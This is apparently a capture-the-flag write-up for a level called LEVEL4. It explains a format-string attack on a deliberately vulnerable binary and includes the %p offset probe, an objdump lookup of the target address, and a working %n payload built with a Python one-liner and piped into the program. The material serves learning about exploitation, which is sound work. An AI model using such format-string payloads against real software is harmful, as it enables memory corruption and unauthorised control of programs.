

# LEVEL4

This level is similar to the previous one, as it includes a condition that compares an uninitialized variable with the value *16930116* and a call to *printf()* before it. Therefore, we can use the same exploit to retrieve the flag.

To proceed, we need to gather the following informations:
* The offset with *printf()*
* The address of the variable

First, we'll determine the offset in the memory where we have to write.

```
> ./level4
> AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```


The offset is located at the twelfth position. Next, we'll retrieve the address of the variable that we want to modify.

```
objdump -d level4
```


In the function *n()*, we notice that the address *0x08049810* is copied into the EAX register and then compared with the value *0x1025544* (which is 16930116 in decimal). This address corresponds to the variable we want to modify.

With all this information, we can create the payload in the same format as in the previous level.

```
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' > /tmp/payload4
```

We used the value *16930112* instead of *16930116* because the first 4 bytes were already used to write the address of the variable.\
Finally, we can retrieve the flag for the next level!

```
cat /tmp/payload4 | ./level4
```

**LEVEL4 COMPLETE!**